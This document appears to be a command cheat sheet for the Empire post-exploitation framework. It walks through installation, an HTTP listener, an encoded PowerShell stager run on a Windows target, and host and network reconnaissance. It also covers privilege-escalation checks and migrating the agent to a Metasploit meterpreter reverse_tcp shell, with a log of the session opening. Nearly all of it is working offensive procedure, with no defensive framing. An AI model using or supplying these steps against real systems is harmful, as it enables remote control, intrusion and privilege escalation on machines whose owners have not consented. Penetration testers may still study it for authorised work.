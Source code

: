 # Install
```bash
git clone https://github.com/EmpireProject/Empire.git
cd Empire
cd setup
chmod +x install.sh
./install.sh
```

# Generate key pair for SSL certificate for HTTP listener
```bash
chmod +x cert.sh
./cert.sh
```

# Launch
```bash
cd ../
./empire
```

# Basic Commands
```bash
back
help
info
main
```

# Establish HTTP Listener
```bash
(Empire) > listeners
(Empire: listeners) > uselistener http

# Configure SSL
(Empire: uselistener/http) > info
(Empire: uselistener/http) > set CertPath [Empire Directory]/data

# Start Listener
(Empire: uselistener/http) > execute
```

# Generate and Execute Stager
```bash
(Empire: listeners) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http
(Empire: usestager/multi/launcher) > execute

# From Target
C:\Windows\System32>powershell -nop -sta -w 1 -enc [Encoded Stager]
```

# Interact with Agent (Connection)
```bash
(Empire: usestager/multi/launcher) > agents
(Empire: agents) > interact [Agent Name]
```

# Execute Module
```bash
(Empire: [Agent Name]) > usemodule powershell/situational_awareness/host/computerdetails
(Empire: usemodule/powershell/situational_awareness/host/computerdetails) > execute

(Empire: [Agent Name]) > usemodule powershell/situational_awareness/network/portscan
(Empire: usemodule/powershell/situational_awareness/network/portscan) > set Hosts [Target Host]
(Empire: usemodule/powershell/situational_awareness/network/portscan) > execute

(Empire: [Agent Name]) > usemodule privesc/powerup/allchecks
(Empire: usemodule/privesc/powerup/allchecks) > execute
```

# Migrate to Meterpreter
```bash
use exploit/multi/script/web_delivery
set target 2
set LHOST [Interface]
set payload windows/meterpreter/reverse_tcp
run

(Empire: [Agent Name]) > usemodule powershell/code_execution/invoke_metasploitpayload
(Empire: usemodule/powershell/code_execution/invoke_metasploitpayload) > set URL [URL Generated by exploit/multi/script/web_delivery]
(Empire: usemodule/powershell/code_execution/invoke_metasploitpayload) > execute

[*] Meterpreter session 1 opened (10.10.22.3:4444 -> 10.4.28.82:49851 ) at 2022-07-05 04:34:41 +0530
```

# References
##### [Github](https://github.com/EmpireProject/Empire)